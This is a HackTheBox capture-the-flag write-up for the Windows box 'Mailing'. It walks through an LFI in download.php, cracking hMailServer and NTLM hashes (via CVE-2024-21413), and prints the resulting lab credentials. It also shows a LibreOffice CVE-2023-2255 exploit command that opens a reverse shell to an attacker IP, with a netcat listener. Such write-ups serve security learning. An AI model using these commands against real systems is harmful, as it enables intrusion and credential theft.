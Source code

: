 ```yaml
---
title: Mailing
published: 2024-09-01
description: "An in-detail writeup on the linux box: Mailing. From boot to root!"
image: "./Mailing.png"
tags: ["htb", "box", "medium", "windows", "reverse-shells", "privilege-escalation"]
category: HackTheBox
draft: false
--- 
```


# Mailing 

* I scanned all ports, sub directories and `php` files. Also, copies of the scans are attached here. 

## Initial Access 

* I discovered some `php` files from my `ffuf` scans and one interesting one was this:

```bash
download                [Status: 200, Size: 31, Words: 5, Lines: 1, Duration: 326ms]
```

* Requesting `download.php` made me more curious:

```bash
❯ curl 'mailing.htb/download.php'
No file specified for download. 
```

* From that results I figured out that there's a param probably `file` 

* And, I was correct the param was `file` and it returned an error page:

```bash
curl 'mailing.htb/download.php?file='
---snip--- 
</style>
</head>
<body>
<div id="header"><h1>Server Error</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>500 - Internal server error.</h2>
  <h3>There is a problem with the resource you are looking for, and it cannot be displayed.</h3>
 </fieldset></div>
</div>
</body>
</html>
```

* Of course, it was clearly LFI which I confirmed later on

* After, doing some research about `hmailserver`, I discovered some locations it's files are stored:

![](https://i.postimg.cc/PrNvYLpS/Screenshot-from-2024-05-04-21-30-33.png) 

* Passing  `AdministratorPassword` to crackstation, I got the password in clear text:

![](https://i.postimg.cc/TwLgGpV7/Screenshot-from-2024-05-04-21-33-17.png)

* After doing some recon about this I discovered a CVE on Microsoft Outlook that reveals ntlm hash: `CVE-2024-21413` 

![](https://i.postimg.cc/PJ2zSBTY/Screenshot-from-2024-05-04-21-41-03.png)

* I cracked that and got user `maya`, password `m4y4ngs4ri` 

## Privilege Escalation

* I discovered that libreoffice was outdated and found a `cve` to exploit it. Also, `C:\Important Documents` this directory was writeable. 

* [CVE](https://github.com/elweth-sec/CVE-2023-2255)

* I compile rcat for windows and put `rcat.exe` in `C:\ProgramData `

```bash
python3 CVE-2023-2255.py --cmd 'C:\ProgramData\rcat.exe connect 10.10.16.4 9999' --output 'hack.odt'
``` 

* I started a listene with netcat on attacker: `nc -lvnp 9999`. Put `hack.odt` in `C:\Important Documents` and after like 30 seconds I got a shell as `localadmin`.

## Pwned 
+
